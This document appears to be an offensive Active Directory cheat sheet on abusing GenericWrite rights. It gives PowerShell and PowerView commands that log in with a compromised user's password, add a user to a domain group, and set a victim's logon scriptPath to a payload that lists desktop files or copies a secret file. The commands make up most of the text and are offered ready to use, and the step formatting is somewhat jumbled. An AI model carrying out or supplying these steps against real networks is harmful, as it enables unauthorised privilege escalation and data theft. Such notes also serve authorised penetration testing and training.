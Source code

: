 # GenericWrite
## On a `Group` Object `AddMember`

1. **Authenticate as the Compromised User**:  
   - Create a `PSCredential` object for the user with group modification rights:  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     *(Replace `DOMAIN\USERNAME` and `<PASSWORD>` with the target user's credentials, e.g., `corp.com\ali`).*  

2. **Verify Current Group Membership**:  
   - Check existing members of the target group (e.g., `Help Desk Level 1`):  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Select MemberName
     ```  
     or using native AD cmdlets:  
     ```powershell
     Get-ADGroupMember -Identity "GROUP_NAME" | Select-Object Name
     ```  

3. **Add the User to the Group**:  
   - Use PowerView's `Add-DomainGroupMember` (or `Add-ADGroupMember`):  
     ```powershell
     Add-DomainGroupMember -Identity 'GROUP_NAME' -Members 'TARGET_USER' -Credential $Cred -Verbose
     ```  
     *(Replace `GROUP_NAME` and `TARGET_USER` with the group and user to add, e.g., `Help Desk Level 1` and `ali`).*

4. **Confirm Success**:  
   - Re-run the membership check to ensure the user was added:  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Where-Object { $_.MemberName -eq 'TARGET_USER' }
     ```  

## On a `User` Object `Logonscript` _Set-DomainObject_
**Tools**: PowerView
### Workflow

#### 1. **Create a Payload Script**

Prepare a script to perform the desired action. Save it in a location accessible by the target system.

- **Example 1**: List directory contents
    
    ```cmd
    echo "dir C:\Users\Alice\Desktop > C:\Temp\output.txt" > \\temp\\payload.ps1
    ```
  #### 2. **Set the `scriptPath` Attribute**

Use PowerView or another AD tool to modify the `scriptPath` of the target user object.

    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
  
- **Example 2**: Copy a file
    
    ```cmd
    echo "copy C:\Users\Alice\Desktop\secret.txt C:\Temp\copied_secret.txt" > \\temp\\payload.ps1
    ```
**Set the `scriptPath` Attribute**

    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
#### 3. **Retrieve the Results**

Check the output location defined in your script:

- Example: `C:\Temp\output.txt`
    
- Example: `C:\Temp\copied_secret.txt`
    
        

